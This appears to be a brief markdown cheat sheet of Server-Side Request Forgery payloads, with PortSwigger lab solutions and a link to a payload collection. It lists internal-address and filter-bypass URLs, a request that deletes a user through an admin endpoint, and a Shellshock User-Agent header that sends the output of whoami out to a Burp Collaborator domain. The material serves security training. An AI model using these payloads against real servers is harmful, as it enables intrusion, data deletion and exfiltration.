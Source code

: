 # Server-Side Request Forgery - SSRF
> Server Side Request Forgery or SSRF is a vulnerability in which an attacker forces a server to perform requests on their behalf.

## SSRF Blind
Change every param to: http://subdomain.burpcollaborator.net

## SSRF Reflected
1) http://
2) http://$domain - http://subdomain.$domain
3) http://192.168
4) http://127

SSRF vulnerabilities are most commonly encountered in functionality associated with:

* PDF generation e.g. Generate PDF reports, Credit Card statements;
* File Upload e.g. Uploading scanned documents, image files, etc.

## PORTSWIGGER
1) search stockApi=http://localhost/admin/delete?username=carlos
2) http://192.168.§0§.§1§:8080/admin
3) http://127.0.0.1/ - http://127.1/ - http://127.1/admin - http://127.1/%2561dmin
4) http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos
5) /product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
6) User-Agent: () { :; }; /usr/bin/nslookup $(whoami).YOUR-SUBDOMAIN-HERE.burpcollaborator.net + Referrer: http://192.168.§0§.§1§:8080,443,80

## Reference
Search Web Services and test ssrfs payloads:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md
